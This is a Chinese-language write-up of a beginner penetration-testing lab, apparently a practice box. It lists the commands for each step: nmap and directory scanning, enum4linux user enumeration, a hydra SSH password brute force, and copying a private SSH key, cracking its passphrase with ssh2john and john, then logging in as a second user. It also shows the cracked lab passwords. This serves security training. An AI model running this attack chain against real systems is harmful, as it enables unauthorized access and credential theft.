

# 基础渗透测试

使用nmap进行扫描查看开启了什么服务

```
nmap -sV -T4 10.10.121.121
```


使用nmap扫描发现，开启了ssh，http，netbios-ssn ajp13服务

发现了http服务，使用目录扫描工具dirsearch

```
dirsearch -u  http://10.10.121.121 -t 10
```


也可以用gobuster进行目录扫描

```
gobuster dir -u http://10.10.143.178 -w 字典
```


扫描出web服务隐藏的目录：development

在目录下的文档找到了服务器开启了SMB服务（文件共享服务）并且版本为2.5.12


使用enum4linux找到用户名

```
enum4linux -a -o 10.10.143.178
```


找到用户信息：kay，jan


使用hydra进行爆破ssh

```
hydra -l jan -P /home/gary/文档/字典/pass_weak18000.txt -vV -o ssh.log -e ns 10.10.54.237 ssh
```

爆破出密码为：armando


使用ssh登陆到服务器

```
ssh 10.10.223.84 -l jan
```

在服务器上发现了id_rsa把它复制下来


使用ssh2john把id_rsa转为hash

```
ssh2john id_rsa > id_rsa.txt
```

使用john破解hash文件

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```

爆出来的密码为：beeswax


使用密钥加密码登录

```
chmod 755 id_rsa
ssh -i ./id_rsa kay@10.10.34.167
```


查看文档

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


